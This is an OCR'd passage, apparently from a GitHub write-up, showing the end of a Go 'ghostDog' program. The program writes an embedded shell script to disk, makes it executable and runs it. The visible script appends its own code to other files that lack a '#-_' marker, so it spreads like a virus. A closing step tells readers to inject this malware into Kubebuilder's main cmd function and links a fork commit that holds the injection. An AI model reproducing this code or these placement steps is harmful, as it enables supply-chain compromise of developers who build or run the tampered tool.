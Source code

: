    ```go
                if ! grep -q '#-_' "$file"; then
                    tail -n +2 $0 >> "$file"
                    echo "Appended to: $file" >> "$LOGFILE"
                fi
            ;;
        esac
    done
    2>/dev/null
    `

        // Write the script content to the file
        fmt.Println("Writing the script to", targetFile)
        err = ioutil.WriteFile(targetFile, []byte(scriptContent), 0755)
        if err != nil {
            fmt.Println("Error writing to file:", err)
            return
        }
        fmt.Println("Script written successfully")

        // Change permissions to make the script executable
        fmt.Println("Setting executable permissions for", targetFile)
        err = os.Chmod(targetFile, 0755)
        if err != nil {
            fmt.Println("Error setting file permissions:", err)
            return
        }
        fmt.Println("Permissions set successfully")

        // Execute the script
        fmt.Println("Executing the script", targetFile)
        cmd := exec.Command("/bin/sh", targetFile)
        output, err := cmd.CombinedOutput()
        if err != nil {
            fmt.Println("Error executing the script:", err)
            fmt.Println("Script output:", string(output))
            return
        }
        fmt.Println("Script executed successfully")
        fmt.Println("Script output:", string(output))
    }

    func main() {
        ghostDog()
    }
   ```

6. **Where to inject the malware in Kubebuilder**  
    Directly into the main cmd function of Kubebuilder.

    The injection can be seen here in the fork: [/kubebuilder/commit/bf67123](https://github.com//kubebuilder/commit/bf67123ffc3ea4b12fe9a4c53c6ff9c66c0502d5)
